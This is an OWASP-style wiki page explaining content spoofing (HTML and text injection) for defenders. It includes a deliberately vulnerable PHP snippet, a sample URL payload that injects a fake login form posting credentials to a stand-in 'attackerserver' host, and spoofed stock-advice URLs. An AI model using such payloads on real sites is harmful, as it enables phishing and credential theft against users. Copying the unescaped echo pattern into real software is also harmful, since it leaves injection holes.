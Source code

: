 ```yaml
---

layout: col-sidebar
title: Content Spoofing
author: 
contributors: 
permalink: /attacks/Content_Spoofing
tags: attack, Content Spoofing
auto-migrated: 1

---
```


## Description

Content spoofing, also referred to as *content injection*, "arbitrary
text injection" or *virtual defacement*, is an attack targeting a user
made possible by an injection vulnerability in a web application. When
an application does not properly handle user-supplied data, an attacker
can supply content to a web application, typically via a parameter
value, that is reflected back to the user. This presents the user with a
modified page under the context of the trusted domain.
This attack is typically used as, or in conjunction with, social
engineering because the attack is exploiting a code-based vulnerability
and a user's trust. As a side note, this attack is widely misunderstood
as a kind of bug that brings no impact.

## Risk Factors

Risk factors depend on the business type of the application. If the
application business brand is well known and has major competitors, this
issue can be abused by malicious competitors/disgruntled
employees/unsatisfied customers to trigger mass distributions of false
messages to unsuspecting customers. Another factor that heightens the
risk is by doing SEO injection in a way that search engines crawl and
index crafted URLs with falsified messages.

By doing so, customers could be forced to switch to competitor's
products. This could lead to loss of monetary value until rectification
is properly done by the victim business. For public traded companies,
its shares will be falling down, leading to uncontrolled loss of
millions.

![Fake-text.png](Fake-text.png "Fake-text.png")

## Attack Scenario

An attacker compromised social accounts which have thousands of
followers and distribute misleading Content Spoofing payload via
Twitter/Facebook/Instagram/ similar popular channel. This will lead
media to assume news is correct and create headline stories.

## Applicable Industries

  - A business entity selling one type of product as a major business
    function

For example, Taxi hailing business, Online shopping business, Online
service business

  - A business entity relying on the brand name

For example, Cosmetic brand, Airline brand

## [Threat Agents](Threat_Agents "wikilink")

  - Malicious competitors
  - Disgruntled employees
  - Unsatisfied customers
  - Scammers

## Content Spoofing vs. Cross-site Scripting

Content spoofing is an attack that is closely related to [Cross-site
Scripting (XSS)](Cross-site_Scripting_\(XSS\) "wikilink"). While XSS
uses \[<https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet>

<script>

and other techniques\] to run JavaScript, content spoofing uses other
techniques to modify the page for malicious reasons.

Even if XSS mitigation techniques are used within the web application,
such as proper output encoding, the application can still be vulnerable
to text based content spoofing attacks.

## Examples

### Hypertext Markup Language (HTML) Injection

A possible attack scenario is demonstrated below. For this scenario,
lets assumes no output encoding is being implemented:

1.  Attacker discovers injection vulnerability and decides to spoof a
    login form
2.  Attacker crafts malicious link, including his injected HTML content,
    and sends it to a user via email
3.  The user visits the page due to the page being located within a
    trusted domain
4.  The attacker's injected HTML is rendered and presented to the user
    asking for a username and password
5.  The user enters a username and password, which are both sent to the
    attackers server

<!-- end list -->

  -
    A simple PHP page containing an injection vulnerability via the
    *name* parameter:

<!-- end list -->

    <?php
        $name = $_REQUEST ['name'];
    ?>
    <html>
        <h1>Welcome to the Internet!</h1>
        <br>
        <body>
                Hello, <?php echo $name; ?>!
            <p>We are so glad you are here!</p>
        </body>
    </html>

The page functionality can be tested by making the following GET request
to the page:

    http://127.0.0.1/vulnerable.php?name=test

By requesting the link below, the page renders the injected HTML,
presents a login form, and comments out the rest of the page after the
injection point. Once a user enters their username and password, the
values are sent to a page named *login.php* on the attacker's server via
POST.

    http://127.0.0.1/vulnerable.php?name=<h3>Please Enter Your Username and Password to Proceed:</h3><form method="POST"
    action="http://attackerserver/login.php">Username: <input type="text" name="username" /><br />Password: <input type="password"
    name="password" /><br /><input type="submit" value="Login" /></form><!--

### Text Injection

Another example of a content spoofing attack would be to present false
information to a user via text manipulation. An attack scenario is
demonstrated below. For this scenario, lets assume proper output
encoding HAS been implemented and XSS is not possible:

1.  An attacker identifies a web application that gives recommendations
    to its users on whether they should buy or sell a particular stock
2.  The attacker identifies a vulnerable parameter
3.  The attacker crafts a malicious link by slightly modifying a valid
    request
4.  The link containing the modified request is sent to a user and they
    clicks the link
5.  A valid webpage is created using the attackers malicious
    recommendation and the user believes the recommendation was from the
    stock website

**Valid Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Recommend+You+Buy+Now

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=We+Really+Recommend+You+Sell+This+Stock+Now

Other example:

**Modified Page**

    http://vulnerablesite/suggestions.php?stockid=123&stockrecommendation=Our+site+has+experienced+major+hacking+incident.Please+use+our+competitor+site+http://www.competitor.com+until+we+further+announced+for+update.

## Related [Attacks](Attacks "wikilink")

  - [Cross-site Scripting
    (XSS)](Cross-site_Scripting_\(XSS\) "wikilink")
  - [:Category:Injection Attack](:Category:Injection_Attack "wikilink")

## Related [Vulnerabilities](https://owasp.org/www-community/vulnerabilities/)

  - [:Category:Input Validation
    Vulnerability](:Category:Input_Validation_Vulnerability "wikilink")
  - [Improper Data Validation](Improper_Data_Validation "wikilink")

## Related [Controls](Controls "wikilink")

  - [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

## References

  - <http://capec.mitre.org/data/definitions/148.html>
  - <http://projects.webappsec.org/w/page/13246917/Content%20Spoofing>
  - <http://itlaw.wikia.com/wiki/Content_injection_attack>
  - CERT Advisory on Malicious HTML Tags:
    <http://www.cert.org/advisories/CA-2000-02.html>
  - OWASP's [XSS (Cross Site Scripting) Prevention Cheat
    Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
  - OWASP Guide to Building Secure Web Applications and Web Services,
    Chapter 8: [Data Validation](Data_Validation "wikilink")
  - HTML Code Injection and Cross-site Scripting:
    <http://www.technicalinfo.net/papers/CSS.html>
  - Case studies (Spotify, LinkedIn, ..etc):
    <https://twitter.com/ncweaver/status/974802236567007232?s=12>

[Category:Injection](Category:Injection "wikilink")
[Category:Attack](Category:Attack "wikilink")